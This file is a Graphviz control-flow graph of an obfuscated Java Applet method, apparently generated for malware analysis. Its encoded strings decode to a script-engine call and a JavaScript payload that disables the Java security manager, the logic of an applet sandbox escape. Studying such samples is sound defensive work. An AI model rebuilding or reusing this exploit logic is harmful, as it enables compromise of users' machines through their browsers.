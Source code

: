 digraph "" {
    "r0 := @this: Applet"
    "push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027%z\u0004p\u0006m3w\u0011p\u0018|;x\u0018x\u0011|\u0004\""
    "r0 := @this: Applet"->"push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027%z\u0004p\u0006m3w\u0011p\u0018|;x\u0018x\u0011|\u0004\"";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"
    "push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027%z\u0004p\u0006m3w\u0011p\u0018|;x\u0018x\u0011|\u0004\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "push 0"
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "newarray"->"push 0";
    "push 0"->"newarray";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "newarray"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "store.r $r21"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r21";
    "store.r $r21"->"push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027%z\u0004p\u0006m3w\u0011p\u0018|;x\u0018x\u0011|\u0004\"";
    "push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027%z\u0004p\u0006m3w\u0011p\u0018|;x\u0018x\u0011|\u0004\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "load.r $r21"
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"load.r $r21";
    "push \"\u0011|\u0002\\\u0018~\u001fw\u0013[\u000fW\u0017t\u0013\""
    "load.r $r21"->"push \"\u0011|\u0002\\\u0018~\u001fw\u0013[\u000fW\u0017t\u0013\"";
    "push \"\u0011|\u0002\\\u0018~\u001fw\u0013[\u000fW\u0017t\u0013\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "push 1"
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "dup1.r"
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"s\u0005\""
    "push 0"->"push \"s\u0005\"";
    "push \"s\u0005\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"arraywrite.r";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "store.r $r17"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r17";
    "push \"\u001cx\u0000x\u000e7\u0005z\u0004p\u0006mXJ\u0015k\u001fi\u0002\\\u0018~\u001fw\u0013\""
    "store.r $r17"->"push \"\u001cx\u0000x\u000e7\u0005z\u0004p\u0006mXJ\u0015k\u001fi\u0002\\\u0018~\u001fw\u0013\"";
    "push \"\u001cx\u0000x\u000e7\u0005z\u0004p\u0006mXJ\u0015k\u001fi\u0002\\\u0018~\u001fw\u0013\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "load.r $r17"
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"load.r $r17";
    "push \"|\u0000x\u001a\""
    "load.r $r17"->"push \"|\u0000x\u001a\"";
    "push \"|\u0000x\u001a\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"\u007f\u0003w\u0015m\u001fv\u00189\u0002v%m\u0004p\u0018~^v_b\u001f9K9F\\\"\u0002q\u001fjXm\u0019J\u0002k\u001fw\u00119K9\u0010l\u0018z\u0002p\u0019w^0\rp\u00101VpV$K9F9_m\u0004`\rs\u0017o\u00177\u001ax\u0018~XJ\u000fj\u0002|\u001b7\u0005|\u0002J\u0013z\u0003k\u001fm\u000fT\u0017w\u0017~\u0013k^w\u0003u\u001a0MvXm\u0019J\u0002k\u001fw\u00111_\\\"\u000b9\u0015x\u0002z\u001e1V|V0\rd\u001f9K9G\\\"\u0004|\u0002l\u0004wV>Q\\\"\u000b\\\"\u00139K9\u0018|\u000193k\u0004v\u00041_\\\"\u00137\u001b|\u0005j\u0017~\u00139K9\u0002q\u001fjMk\u0013m\u0003k\u00189\u0013\\\"\u000b\""
    "push 0"->"push \"\u007f\u0003w\u0015m\u001fv\u00189\u0002v%m\u0004p\u0018~^v_b\u001f9K9F\\\"\u0002q\u001fjXm\u0019J\u0002k\u001fw\u00119K9\u0010l\u0018z\u0002p\u0019w^0\rp\u00101VpV$K9F9_m\u0004`\rs\u0017o\u00177\u001ax\u0018~XJ\u000fj\u0002|\u001b7\u0005|\u0002J\u0013z\u0003k\u001fm\u000fT\u0017w\u0017~\u0013k^w\u0003u\u001a0MvXm\u0019J\u0002k\u001fw\u00111_\\\"\u000b9\u0015x\u0002z\u001e1V|V0\rd\u001f9K9G\\\"\u0004|\u0002l\u0004wV>Q\\\"\u000b\\\"\u00139K9\u0018|\u000193k\u0004v\u00041_\\\"\u00137\u001b|\u0005j\u0017~\u00139K9\u0002q\u001fjMk\u0013m\u0003k\u00189\u0013\\\"\u000b\"";
    "push \"\u007f\u0003w\u0015m\u001fv\u00189\u0002v%m\u0004p\u0018~^v_b\u001f9K9F\\\"\u0002q\u001fjXm\u0019J\u0002k\u001fw\u00119K9\u0010l\u0018z\u0002p\u0019w^0\rp\u00101VpV$K9F9_m\u0004`\rs\u0017o\u00177\u001ax\u0018~XJ\u000fj\u0002|\u001b7\u0005|\u0002J\u0013z\u0003k\u001fm\u000fT\u0017w\u0017~\u0013k^w\u0003u\u001a0MvXm\u0019J\u0002k\u001fw\u00111_\\\"\u000b9\u0015x\u0002z\u001e1V|V0\rd\u001f9K9G\\\"\u0004|\u0002l\u0004wV>Q\\\"\u000b\\\"\u00139K9\u0018|\u000193k\u0004v\u00041_\\\"\u00137\u001b|\u0005j\u0017~\u00139K9\u0002q\u001fjMk\u0013m\u0003k\u00189\u0013\\\"\u000b\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "pop"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r $r21";
    "store.r $r21"->"load.r $r21";
    "load.r $r21"->"push 0";
    "push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027?w\u0000v\u0015x\u0014u\u0013\""
    "push 0"->"push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027?w\u0000v\u0015x\u0014u\u0013\"";
    "push \"s\u0017o\u0017aXj\u0015k\u001fi\u00027?w\u0000v\u0015x\u0014u\u0013\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"load.r $r17";
    "push \"p\u0018o\u0019r\u0013_\u0003w\u0015m\u001fv\u0018\""
    "load.r $r17"->"push \"p\u0018o\u0019r\u0013_\u0003w\u0015m\u001fv\u0018\"";
    "push \"p\u0018o\u0019r\u0013_\u0003w\u0015m\u001fv\u0018\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "push 2"
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r $r17";
    "store.r $r17"->"load.r $r17";
    "load.r $r17"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r17";
    "load.r $r17"->"push 1";
    "push class \"[Ljava/lang/Object;\""
    "push 1"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 2";
    "push 2"->"newarray";
    "store.r $r18"
    "newarray"->"store.r $r18";
    "load.r $r18"
    "store.r $r18"->"load.r $r18";
    "load.r $r18"->"push 0";
    "push \"m\u0019J\u0002k\u001fw\u0011\""
    "push 0"->"push \"m\u0019J\u0002k\u001fw\u0011\"";
    "push \"m\u0019J\u0002k\u001fw\u0011\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"push 1";
    "push 1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "load.r r0"
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"arraywrite.r";
    "arraywrite.r"->"load.r $r17";
    "load.r $r17"->"load.r $r18";
    "load.r $r18"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"arraywrite.r";
    "push \"\u001cx\u0000x\u000e7\u0005n\u001fw\u00117<U\u001fj\u0002\""
    "arraywrite.r"->"push \"\u001cx\u0000x\u000e7\u0005n\u001fw\u00117<U\u001fj\u0002\"";
    "push \"\u001cx\u0000x\u000e7\u0005n\u001fw\u00117<U\u001fj\u0002\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r21";
    "load.r $r21"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r21";
    "push \"s\u0017o\u00177\u0017i\u0006u\u0013mXX\u0006i\u001a|\u0002\""
    "store.r $r21"->"push \"s\u0017o\u00177\u0017i\u0006u\u0013mXX\u0006i\u001a|\u0002\"";
    "push \"s\u0017o\u00177\u0017i\u0006u\u0013mXX\u0006i\u001a|\u0002\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"load.r r0";
    "push \"\u0017}\u0012\""
    "load.r r0"->"push \"\u0017}\u0012\"";
    "push \"\u0017}\u0012\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"s\u0017o\u00177\u0017n\u000275v\u001bi\u0019w\u0013w\u0002\""
    "push 0"->"push \"s\u0017o\u00177\u0017n\u000275v\u001bi\u0019w\u0013w\u0002\"";
    "push \"s\u0017o\u00177\u0017n\u000275v\u001bi\u0019w\u0013w\u0002\""->"staticinvoke <Applet: java.lang.String e(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <Applet: java.lang.String e(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r21";
    "load.r $r21"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "return"
    "pop"->"return";
    "store.r r0"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r r0";
    "staticget <Applet: java.lang.Boolean b>"
    "store.r r0"->"staticget <Applet: java.lang.Boolean b>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "staticget <Applet: java.lang.Boolean b>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "ifeq return"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"ifeq return";
    "ifeq return"->"load.r r0";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"->"return";
}
